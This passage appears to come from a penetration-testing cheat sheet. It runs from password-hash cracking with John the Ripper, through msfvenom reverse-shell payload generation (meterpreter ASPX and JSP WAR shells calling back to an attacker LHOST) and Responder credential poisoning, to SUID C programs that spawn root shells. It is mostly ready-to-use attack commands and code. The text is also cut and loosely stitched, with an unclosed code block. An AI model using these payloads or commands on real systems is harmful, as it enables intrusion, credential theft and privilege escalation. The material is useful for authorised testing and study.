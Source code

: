     john 127.0.0.1.pwdump --wordlist=dictionary.txt --rules=Jumbo #with jumbo rules from https://github.com/openwall/john
    ```

    [CyberChef](https://gchq.github.io/CyberChef/)

    [CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

    [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)

    [Cipher Identifier (online tool) | Boxentriq](https://www.boxentriq.com/code-breaking/cipher-identifier)

- msfvenom(kali) - tool to create malware

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=10.10.10.14 LPORT=4444 -f aspx > ex.aspx

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    ```

- [responder (imapcket)](https://www.notion.so/responder-imapcket-b7bdbbb91ce74e98834dd88ec1715528) - MITM - listening in the background and wait for a failed dns request

    ```bash
    responder -I eth0 -rdwv #Run Responder.py for the length of the engagement while you're working on other attack vectors.


# Gaining access done

# **Shells & Reverse Shells**

## **SUID C Shells**

- bin/bash:

```
int main(void){

setresuid(0, 0, 0);

system("/bin/bash");

}
```

- bin/sh:

```
int main(void){

setresuid(0, 0, 0);

system("/bin/sh");

}
```
